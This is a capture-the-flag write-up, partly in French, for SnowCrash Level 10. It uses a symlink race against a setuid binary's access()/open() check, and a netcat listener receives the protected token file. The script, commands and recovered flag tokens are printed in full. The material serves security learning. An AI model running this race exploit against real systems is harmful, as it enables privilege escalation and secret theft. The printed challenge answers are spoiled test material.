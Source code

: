 # Level 10

</br></br>

## file list in home
```zsh
level10@SnowCrash:~$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```
</br></br>

## execute file level10
```zsh
level10@SnowCrash:~$ ./level10 
./level10 file host
        sends file to host if you have access to it
```
</br></br>

## ltrace level10
```zsh
level10@SnowCrash:~$ ltrace ./level10 
__libc_start_main(0x80486d4, 1, 0xbffff7f4, 0x8048970, 0x80489e0 <unfinished ...>
printf("%s file host\n\tsends file to ho"..., "./level10"./level10 file host
        sends file to host if you have access to it
)    = 65
exit(1 <unfinished ...>
+++ exited (status 1) +++
```
</br></br>

## strings level10
```zsh
...
...
PTRh
UWVS
[^_]
%s file host
        sends file to host if you have access to it
Connecting to %s:6969 .. 
Unable to connect to host %s
.*( )*.
Unable to write banner to host %s
Connected!
Sending file .. 
Damn. Unable to open file
...
...
```
Connection to 6969. we need to listen on port 6969

```zsh
level10@SnowCrash:~$ ./level10 
./level10 file host
        sends file to host if you have access to it
level10@SnowCrash:~$ ./level10 token localhost
You don't have access to token
level10@SnowCrash:~$ ltrace ./level10 token localhost
__libc_start_main(0x80486d4, 3, 0xbffff7d4, 0x8048970, 0x80489e0 <unfinished ...>
access("token", 4)                                = -1
printf("You don't have access to %s\n", "token"You don't have access to token
)  = 31
+++ exited (status 31) +++
```

on peut voir que level10 utilise access

</br></br>

## access
```zsh
level10@SnowCrash:~$ man access
...
...
 Warning: Using access() to check if a user is authorized to,  for  exam‐
       ple,  open a file before actually doing so using open(2) creates a secu‐
       rity hole, because the  user  might  exploit  the  short  time  interval
       between  checking  and opening the file to manipulate it.  For this rea‐
       son, the use of this system call should be  avoided.   (In  the  example
       just  described,  a safer alternative would be to temporarily switch the
       process's effective user ID to the real ID and then call open(2).)
...
...
```

par contre, on peut ouvrir level10

```zsh
level10@SnowCrash:~$ ./level10 level10 localhost
Connecting to localhost:6969 .. Unable to connect to host localhost
```
donc, on va executer token en utilisant race condition et symbolic link

</br></br>

## symbolic link et race condition

faire fichier link
ce fichier est symbolic link pour open (level10) et pour executer (token)

```zsh
level10@SnowCrash:/tmp/link$ vim makeSymLink.sh
level10@SnowCrash:/tmp/link$ ls
makeSymLink.sh
level10@SnowCrash:/tmp/link$ chmod +x ./makeSymLink.sh 
level10@SnowCrash:/tmp/link$ ./makeSymLink.sh 
level10@SnowCrash:/tmp/link$ cat makeSymLink.sh 
```
```sh
#!/bin/bash

while true
do
  ln -fs ~/level10 ./link
  ln -fs ~/token ./link
done
```
</br></br>

## execute 
```zsh
level10@SnowCrash:/tmp/link$ ./makeSymLink.sh 
```

```zsh
level10@SnowCrash:/tmp/link$ ./makeSymLink.sh 
Connecting to 192.168.56.101:6969 .. Unable to connect to host 192.168.56.101
You don't have access to /tmp/link/link
Connecting to 192.168.56.101:6969 .. Unable to connect to host 192.168.56.101
Connecting to 192.168.56.101:6969 .. Unable to connect to host 192.168.56.101
You don't have access to /tmp/link/link
Connecting to 192.168.56.101:6969 .. Unable to connect to host 192.168.56.101
You don't have access to /tmp/link/link
You don't have access to /tmp/link/link
Connecting to 192.168.56.101:6969 .. Unable to connect to host 192.168.56.101
You don't have access to /tmp/link/link^C
```

```zsh
level10@SnowCrash:~$ nc -lk 6969
Connected!
Sending file .. Damn. Unable to open fileUnable to read from file: %s
wrote file!You don't have access to %s
0����Lx���p��������������zR|
                            P���F
                                 J
��                                tx?;*2$"@�����B
  8`|���a�A
           �A�A�N0JA�A
                      ��A�������������������
���o�Ё                                      Є
�
 ��H������o���o�(.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
```
</br></br>

## get token
```zsh
level10@SnowCrash:~$ su flag10
Password: 
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
flag10@SnowCrash:~$ su level11
Password: 
level11@SnowCrash:~$ 
```